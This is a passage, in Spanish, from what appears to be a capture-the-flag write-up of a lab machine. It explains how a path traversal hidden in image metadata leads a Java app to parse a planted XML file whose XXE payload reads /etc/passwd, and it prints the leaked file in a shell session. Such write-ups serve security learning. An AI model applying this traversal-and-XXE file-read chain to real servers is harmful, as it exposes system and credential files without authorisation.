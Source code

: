 Esto hará que se cree un `path` en `/opt/panda_search/src/main/resources/static/../../../../../../../tmp/pointed.jpg`

Luego se leerá el metadato de la imagen que es `../../../../../../tmp/pointed` y creará la ruta `/credits/../tmp/pointed_creds.xml`
Esto leerá el XML con el payload por lo cual leerá el contenido del `/etc/passwd` y al intentar incrementar en "1" las visitas, se exportará el `/etc/passwd` en el campo.

```shell
woodenk@redpanda:/tmp$ cat pointed_creds.xml
cat pointed_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<credits>
  <author>pointed</author>
  <image>
    <uri>../../../../../../../pointed.jpg</uri>
    <views>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false</views>
  </image>
  <totalviews>1</totalviews>
</credits>
```
